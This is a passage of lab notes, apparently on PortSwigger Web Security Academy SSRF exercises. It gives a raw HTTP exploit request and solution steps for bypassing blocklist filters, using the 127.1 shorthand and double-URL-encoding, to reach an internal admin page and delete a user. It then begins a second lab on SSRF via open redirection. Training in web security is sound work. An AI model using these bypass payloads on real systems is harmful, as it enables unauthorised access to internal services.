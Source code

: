 > This lab has a stock check feature which fetches data from an internal system.
>
> To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.
>
> The developer has deployed two weak anti-SSRF defenses that you will need to bypass. 

exploit

```http
POST /product/stock HTTP/1.1
Host: 0afd006103a4a549c0a2a300006700dd.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

stockApi=http://127.1/aDmin/delete?username=carlos
```

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Visit a product, click "Check stock", intercept the request in Burp Suite, and send it to Burp Repeater.
                    </li>
                    <li>
                        Change the URL in the <code>stockApi</code> parameter to <code>http://127.0.0.1/</code> and observe that the request is blocked.
                    </li>
                    <li>
                        Bypass the block by changing the URL to: <code>http://127.1/</code>
                    </li>
                    <li>
                        Change the URL to <code>http://127.1/admin</code> and observe that the URL is blocked again.
                    </li>
                    <li>
                        Obfuscate the "a" by double-URL encoding it to %2561 to access the admin interface and delete the target user.
                    </li>
                </ol>
            </div>
        </div>




#### SSRF with filter bypass via open redirection vulnerability

> This lab has a stock check feature which fetches data from an internal system.
>
> To solve the lab, change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user carlos.
>
> The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first. 
